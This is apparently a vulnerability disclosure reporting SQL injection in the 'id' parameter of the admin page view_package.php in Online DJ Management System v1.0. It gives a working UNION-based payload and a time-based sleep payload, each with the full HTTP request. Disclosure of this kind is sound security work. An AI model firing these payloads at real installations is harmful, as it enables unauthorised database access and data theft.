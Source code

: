 # Online DJ Management System v1.0 has SQL injection

BUG_Author:waibi8Bu

Website source code address: https://www.sourcecodester.com/php/15150/online-dj-management-system-phpoop-free-source-code.html

Vulnerability File: /odjms/admin/packages/view_package.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,concat(0x616263,0x313233),null,null,null,null-- -

```
GET /odjms/admin/packages/view_package.php?id=-1%27%20union%20all%20select%20null,null,concat(0x616263,0x313233),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

union query success

![image](https://github.com/rick13795/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))o) and 'o'='o

```
GET /odjms/admin/packages/view_package.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))o)%20and%20%27o%27=%27o HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/rick13795/bug_report/blob/main/sql2.png)
